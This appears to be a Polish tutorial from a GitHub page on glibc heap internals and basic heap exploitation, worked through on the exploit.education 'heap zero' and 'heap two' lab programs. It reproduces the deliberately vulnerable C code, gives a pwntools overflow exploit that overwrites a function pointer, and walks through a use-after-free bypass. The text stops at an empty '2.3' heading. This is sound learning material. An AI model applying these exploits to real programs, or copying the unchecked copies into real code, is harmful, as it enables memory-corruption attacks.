





# HEAP

### 1. Czym jest sterta i jak działa?

Sterta to jeden z obszarów pamięci przydzielony każdemu programowi. Sterta, nie tak jak stos, jest alokowana dynamicznie. 
Program za pomocą specjalnych funkcji może zażadać oraz zwolnić pamieć z sterty, kiedy tego potrzebuje. 

Sterta jest pamięcią globalna - można uzyskać do niej dostęp i ją zmodyfikować z dowolnego miejsca w programie. W tym celu właśnie sterta korzysta z `pointerów`.
Porównując to z odkładaniem zmiennych na stosie widzimy niewielki spadek wydajności.

Funkcje przeznaczone do komunikacji ze stertą  dla programisty to:
 * free - służy do zwolnienia pamięci 
 * `malloc`, `realloc`, `calloc` - służą do alokowania pamięci.

Funkcje te wykorzystują pod spodem syscalle takie jak:
* `mmap`
* `munmap`
* `sbrk`

Struktura jednego chunku sterty wyglada tak:
```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;                /* double links -- used only if free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};

typedef struct malloc_chunk* mchunkptr;
```

Sterta sklada się z kilku rodzajów binów, które przetrzymują wolne chunki - są to listy lub tablice.

Sterta zawiera dużo sprawdzeń bezpieczeństwa, ale nadal jest podatna na kilka ataków mogących wpłynąć na wykonanie programu. Zła praktyka programistyczna też nie pomaga w bezpieczeństwie.

### 2. Podstawy

Aby zapoznać się z podstawowymi exploitami typu heap overflow posługuję się podatnymi aplikacjami z [https://exploit.education/](https://exploit.education/).

#### 2.1

Zacznę od prostego exploita heap overflow - heap zero.

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to heap zero, brought to you by https://exploit.education"

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  printf("%s\n", BANNER);

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

W tym przypadku mamy dwie struktury - data oraz fp. Ze struktury data da sie nadpisać strukturę fp przez użycie funkcji strcmp.

Podaje do programu ciąg znaków. 

Staram się odnaleźć go na stercie.


Widzę na stercie dużo liter A. Mając dość dużo szczęścia udało mi się nadpisać idealna ilość bajtów. Na rysunku zaznaczony jest chunk data. Potem znajdują się headery chunku fp.

Wystarczy nadpisać 16 bajtów więcej, a następnie podać adres funkcji do której chcemy skoczyć.


Funkcja winner jest pod adresem `0x80491b2`.

Exploit wygląda następująco:

```python
from pwn import *


str = b'a'*80+b'\xb2\x91\x04\x08'

p = process(["./vuln.o",str])

p.interactive()


```

Exploit działa.


#### 2.2

Przechodząc do trudniejszego zadania tego samego typu zajmę się - heap two z tej samej strony - to prosty exploit typu use-after-free.

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct auth {
char name[32];
int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv) {
char line[128];

printf("%s\n", BANNER);

while (1) {
printf("[ auth = %p, service = %p ]\n", auth, service);

if (fgets(line, sizeof(line), stdin) == NULL) break;

if (strncmp(line, "auth ", 5) == 0) {
auth = malloc(sizeof(struct auth));
memset(auth, 0, sizeof(struct auth));
if (strlen(line + 5) < 31) {
strcpy(auth->name, line + 5);
}
}
if (strncmp(line, "reset", 5) == 0) {
free(auth);
}
if (strncmp(line, "service", 6) == 0) {
service = strdup(line + 7);
}
if (strncmp(line, "login", 5) == 0) {
if (auth && auth->auth) {
printf("you have logged in already!\n");
} else {
printf("please enter your password\n");
}
}
}
}
}
```

Patrząc na kod widzę, że muszę ustawić zmienna auth z struktury na wartości inną niż 0. Nie występuje tu buffer overflow - wszystkie długości stringów też są sprawdzane. 

Pozornie kod jest poprawny, ale błąd, który będziemy exploitować leży w tej opcji

```c
if (strncmp(line, "reset", 5) == 0) {
free(auth);
}
```
Po zwolnieniu auth, pointer auth nadal wskazuje na tą sama lokalizacje w pamięci. Opcja login nadal sprawdzi to samo miejsce w pamięci, pomimo zwolnienia go (use-after-free). 

W tym miejscu warto by użyć funkcji `service`, która używa `strdup`, który pod spodem wywołuje dobrze znaną funkcję `malloc`. To jest nasz sposób na zapis zmiennej. Po zwolnieniu `auth` chunk ten trafi na free list, z którego będzie pobrany jako następny alokowany chunk.

Planem exploitacji jest:
 * utworzyć `auth`
 * zwolnić `auth`
 * utworzyć `service` o dużej długości - rozmiar bloków musi być podobny, aby trafiły w to samo miejsce.

Tworzę auth.





Zwalniam auth.



Widzę, że dane pozostają w pamięci, zmienia się header.

Wprowadzam service o długości 33 bajty.



Widzę, że chunk został alokowany pod tym samym adresem, a pointer auth nadal wskazuje na ten adres. 

Przy próbie zalogowania widzimy sukces.



2.3
